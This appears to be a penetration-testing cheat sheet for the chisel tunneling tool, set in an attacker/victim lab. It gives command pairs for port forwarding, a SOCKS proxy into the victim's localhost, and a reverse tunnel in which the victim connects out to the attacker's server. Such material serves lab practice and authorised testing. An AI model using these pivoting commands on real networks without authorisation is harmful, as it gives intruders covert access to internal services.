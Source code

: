 Tool for proxying ports, socks, etc. [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel).

# Lab descr:

* Attacker - 192.168.1.1. Have 127.0.0.1:9080 port open.
* Victim - 192.168.1.2. Have 127.0.0.1:8080 port open.

# Just Proxy

Server on victim, client on attacker.

## port2port

Port on attacker forwards to port on victim

```
chisel server --host [LOCAL_IP] --port [SERVER_PORT] --auth test:test
chisel client --auth test:test [SERVER_IP]:[SERVER_PORT] 127.0.0.1:[LOCAL_PROXY_PORT]:127.0.0.1:[TARGET_PORT]
```

```
### victim
chisel server --host 192.168.1.2 --port 10777 --auth test:test

### attacker
chisel client --auth test:test 192.168.1.2:10777 127.0.0.1:18080:127.0.0.1:8080

### Direct connect from attacker, no socks proxy needed
curl http://127.0.0.1:18080
```

## port2any_local

```
### victim
chisel server --host 192.168.1.2 --port 10777 --auth test:test --socks5

### attacker
chisel client --auth test:test 192.168.1.2:10777 127.0.0.1:18080:socks

### Request from attacker to service on victim localhost
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:[ANY]
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:9080
```

# Reverse

A bit insecure. If you run server on your machine, anybody can connect to it and proxy to your host/localhost.

```
### attacker
chisel server --host 192.168.1.1 --port 10777 --auth test:test --socks5 --reverse

### victim
chisel client --auth test:test 192.168.1.1:10777 R:18080:socks

### Request from attacker to service on victim localhost
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:[ANY]
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:8080
```
